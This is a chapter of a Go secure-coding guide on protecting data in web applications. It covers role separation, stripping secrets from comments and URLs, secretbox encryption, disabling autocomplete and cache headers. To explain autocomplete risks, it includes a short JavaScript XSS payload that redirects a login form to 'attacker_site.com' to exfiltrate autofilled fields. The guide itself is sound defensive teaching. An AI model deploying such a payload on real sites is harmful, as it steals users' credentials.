 Data Protection
===============

Nowadays, one of the most important things in security in general is data
protection. You don't want something like:

![All your data are belong to us](files/cB52MA.jpeg)

Simply put, data from your web application needs to be protected. Therefore in
this section, we will take a look at the different ways to secure it.

One of the first things you should tend to is creating and implementing the
right privileges for each user, and restrict them to only the functions they
really need.

For example, consider a simple online store with the following user roles:

* _Sales user_: Allowed to only view a catalog
* _Marketing user_: Allowed to check statistics
* _Developer_: Allowed to modify pages and web application options

Also, in the system configuration (aka webserver), you should define the right
permissions.

The primary thing to perform is to define the right role for each user - web or
system.

Role separation and access controls are further discussed in
the [Access Control][5] section.

## Remove sensitive information

Temporary and cache files which contain sensitive information should be removed
as soon as they're not needed. If you still need some of them, move them to
protected areas or encrypt them.

### Comments

Sometimes developers leave comments like _To-do lists_ in the source-code, and
sometimes, in the worst case scenario, developers may leave credentials.

```go
// Secret API endpoint - /api/mytoken?callback=myToken
fmt.Println("Just a random code")
```

In the above example, the developer has an endpoint in a comment which, if not
well protected, could be used by a malicious user.

### URL

Passing sensitive information using the HTTP GET method leaves the web
application vulnerable because:

1. Data could be intercepted if not using HTTPS by MITM attacks.
2. Browser history stores the user's information. If the URL has
   session IDs, pins or tokens that don't expire (or have low entropy),
   they can be stolen.
3. Search engines store URLs as they are found in pages
4. HTTP servers (e.g. Apache, Nginx), usually write the requested URL, including
   the query string, to unencrypted log files (e.g. `access_log`)

```go
req, _ := http.NewRequest("GET", "http://mycompany.com/api/mytoken?api_key=000s3cr3t000", nil)
```

If your web application tries to get information from a third-party website
using your `api_key`, it could be stolen if anyone is listening within your
network or if you're using a Proxy. This is due to the lack of HTTPS.

Also note that parameters being passed through GET (aka query string) will be
stored in clear, in the browser history and the server's access log regardless
whether you're using HTTP or HTTPS.

HTTPS is the way to go to prevent external parties other than the client and the
server, to capture exchanged data. Whenever possible sensitive data such as the
`api_key` in the example, should go in the request body or some header. The same
way, whenever possible use one-time only session IDs or tokens.

### Information is power

You should always remove application and system documentation on the production
environment. Some documents could disclose versions, or even functions that
could be used to attack your web application (e.g. Readme, Changelog, etc.).

As a developer, you should allow the user to remove sensitive information that
is no longer used. For example, if the user has expired credit cards on his
account and wants to remove them, your web application should allow it.

All of the information that is no longer needed must be deleted from the
application.

#### Encryption is the key

Every piece of highly-sensitive information should be encrypted in your web
application. Use the military-grade [encryption available in Go][2]. For more
information, see the [Cryptographic Practices][3] section.

If you need to implement your code elsewhere, just build and share the
binary, since there's no bulletproof solution to prevent reverse engineering.

Getting different permissions for accessing the code and limiting the access
for your source-code, is the best approach.

Do not store passwords, connection strings (see example for how to secure
database connection strings on [Database Security][4] section), or other
sensitive information in clear text or in any non-cryptographically secure
manner, both on the client and server sides.
This includes embedding in insecure formats (e.g. Adobe flash or compiled code).

Here's a small example of encryption in Go using an external package
`golang.org/x/crypto/nacl/secretbox`:

```go
// Load your secret key from a safe place and reuse it across multiple
// Seal calls. (Obviously don't use this example key for anything
// real.) If you want to convert a passphrase to a key, use a suitable
// package like bcrypt or scrypt.
secretKeyBytes, err := hex.DecodeString("6368616e676520746869732070617373776f726420746f206120736563726574")
if err != nil {
    panic(err)
}

var secretKey [32]byte
copy(secretKey[:], secretKeyBytes)

// You must use a different nonce for each message you encrypt with the
// same key. Since the nonce here is 192 bits long, a random value
// provides a sufficiently small probability of repeats.
var nonce [24]byte
if _, err := rand.Read(nonce[:]); err != nil {
    panic(err)
}

// This encrypts "hello world" and appends the result to the nonce.
encrypted := secretbox.Seal(nonce[:], []byte("hello world"), &nonce, &secretKey)

// When you decrypt, you must use the same nonce and key you used to
// encrypt the message. One way to achieve this is to store the nonce
// alongside the encrypted message. Above, we stored the nonce in the first
// 24 bytes of the encrypted text.
var decryptNonce [24]byte
copy(decryptNonce[:], encrypted[:24])
decrypted, ok := secretbox.Open([]byte{}, encrypted[24:], &decryptNonce, &secretKey)
if !ok {
    panic("decryption error")
}

fmt.Println(string(decrypted))
```

The output will be:

```
hello world
```

## Disable what you don't need

Another simple and efficient way to mitigate attack vectors is to guarantee that
any unnecessary applications or services are disabled in your systems.

### Autocomplete

According to [Mozilla documentation][1], you can disable autocompletion in the
entire form by using:

```html
<form method="post" action="/form" autocomplete="off">
```

Or a specific form element:

```html
<input type="text" id="cc" name="cc" autocomplete="off">
```

This is especially useful for disabling autocomplete on login forms. Imagine a
case where a XSS vector is present in the login page.
If the malicious user creates a payload like:

```javascript
window.setTimeout(function() {
  document.forms[0].action = 'http://attacker_site.com';
  document.forms[0].submit();
}
), 10000);
```

It will send the autocomplete form fields to the `attacker_site.com`.

### Cache

Cache control in pages that contain sensitive information should be disabled.

This can be achieved by setting the corresponding header flags, as shown in the
following snippet:

```go
w.Header().Set("Cache-Control", "no-cache, no-store")
w.Header().Set("Pragma", "no-cache")
```

The `no-cache` value tells the browser to revalidate with the server before
using any cached response. It does not tell the browser to _not cache_.

On the other hand, the `no-store` value is really about disabling caching
overall, and must not store any part of the request or response.

The `Pragma` header is there to support HTTP/1.0 requests.

[1]: https://developer.mozilla.org/en-US/docs/Web/Security/Securing_your_site/Turning_off_form_autocompletion
[2]: https://godoc.org/golang.org/x/crypto
[3]: ../cryptographic-practices/README.md
[4]: ../database-security/README.md
[5]: ../access-control/README.md